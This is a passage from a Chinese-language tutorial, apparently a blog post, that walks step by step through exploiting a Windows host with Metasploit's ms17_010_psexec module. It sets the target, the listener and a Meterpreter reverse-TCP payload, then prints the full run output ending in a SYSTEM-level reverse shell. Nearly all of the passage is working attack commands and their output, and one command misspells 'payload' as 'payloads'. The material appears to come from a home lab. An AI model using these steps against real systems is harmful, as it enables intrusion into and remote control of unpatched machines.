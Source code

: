 看到这么一大堆，你也不用紧张，其实跟上面的一样，你只需要设置四个东西

* RHOST，目标IP，目标的DHCP地址
*  LHOST，监听IP，一般是你自己的DHCP地址
* LPORT，监听端口，随便写一个，只要没冲突就行。比如我是Arch Linux，默认全端口关闭，我可以随便写。
* payload，攻击载荷，一般是 windows/meterpreter/reverse_tcp ，你也可以用别的，想看看还有什么能用就执行 show payloads 吧。

接下来就设置这四个东西吧。

```bash
msf5 exploit(windows/smb/ms17_010_psexec) > set LHOST 192.168.42.141
```

```bash
msf5 exploit(windows/smb/ms17_010_psexec) > set LPORT 6666
```

```bash
msf5 exploit(windows/smb/ms17_010_psexec) > set RHOST 192.168.42.252
```

```bash
msf5 exploit(windows/smb/ms17_010_psexec) > set payloads windows/meterpreter/reverse_tcp
```

设置完以后执行 **`run`** 或者 **`exploit`** ，其实二者并没有什么区别，都是一样的。

喜欢哪个就用哪个吧。

```bash
msf5 exploit(windows/smb/ms17_010_psexec) > run
```

好啦，如果没有问题，然后返回一下内容，那么就说明攻击成功了。

```bash
[*] Started reverse TCP handler on 192.168.42.141:6666 
[*] 192.168.42.252:445 - Target OS: Windows 5.0
[*] 192.168.42.252:445 - Filling barrel with fish... done
[*] 192.168.42.252:445 - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.42.252:445 - 	[*] Preparing dynamite...
[*] 192.168.42.252:445 - 		[*] Trying stick 1 (x86)...Boom!
[*] 192.168.42.252:445 - 	[+] Successfully Leaked Transaction!
[*] 192.168.42.252:445 - 	[+] Successfully caught Fish-in-a-barrel
[*] 192.168.42.252:445 - <---------------- | Leaving Danger Zone | ---------------->
[*] 192.168.42.252:445 - Reading from CONNECTION struct at: 0x81382010
[*] 192.168.42.252:445 - Built a write-what-where primitive...
[+] 192.168.42.252:445 - Overwrite complete... SYSTEM session obtained!
[*] 192.168.42.252:445 - Selecting native target
[*] 192.168.42.252:445 - Uploading payload... JmgBrDpV.exe
[*] 192.168.42.252:445 - Created \JmgBrDpV.exe...
[+] 192.168.42.252:445 - Service started successfully...
[*] 192.168.42.252:445 - Deleting \JmgBrDpV.exe...
[*] Sending stage (179779 bytes) to 192.168.42.252
[*] Meterpreter session 1 opened (192.168.42.141:6666 -> 192.168.42.252:1027) at 2019-07-26 23:11:38 +0800

meterpreter >
```
